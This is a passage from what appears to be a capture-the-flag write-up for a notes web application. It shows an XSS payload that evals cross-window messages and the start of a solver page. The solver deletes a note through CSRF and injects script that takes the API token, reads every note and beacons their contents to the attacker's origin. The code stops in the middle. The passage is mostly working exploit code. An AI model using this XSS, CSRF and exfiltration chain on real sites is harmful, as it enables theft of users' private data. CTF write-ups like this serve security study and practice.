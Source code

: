 Example payload:
```
<img src=0 onerror="window.addEventListener('message',e=>eval(e.data))">.html
```

### Solver

`public/index.html`:
```html
<body>
  <script>
    const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

    const deleteNote = (url, noteId) => {
      const form = document.createElement("form");
      form.action = url;
      form.method = "post";
      form.target = "_blank";

      const input = document.createElement("input");
      input.name = "noteId";
      input.value = noteId;
      form.appendChild(input);

      document.body.appendChild(form);
      form.submit();
    };

    const evilJs = `
      (async () => {
        const { token } = await (await fetch("/api/token")).json();

        const noteIds = await (
          await fetch("/api/notes", {
            headers: { "X-Token": token },
          })
        ).json();

        const notes = await Promise.all(
          noteIds.map((id) =>
            fetch("/api/notes/" + id, {
              headers: { "X-Token": token },
            }).then((res) => res.text())
          )
        );

        navigator.sendBeacon("${location.origin}", notes.join("\\n"));
      })();
    `;

    const main = async () => {
      const params = new URLSearchParams(location.search);
      const baseUrl = params.get("baseUrl");
      const noteId = params.get("noteId");

      {
        // Delete a note (and create a deleted page) with CSRF
        const url = `${baseUrl}/api/notes/delete`;
        deleteNote(url, noteId);
      }
      await sleep(1000);

      let evilWindow;
      {
```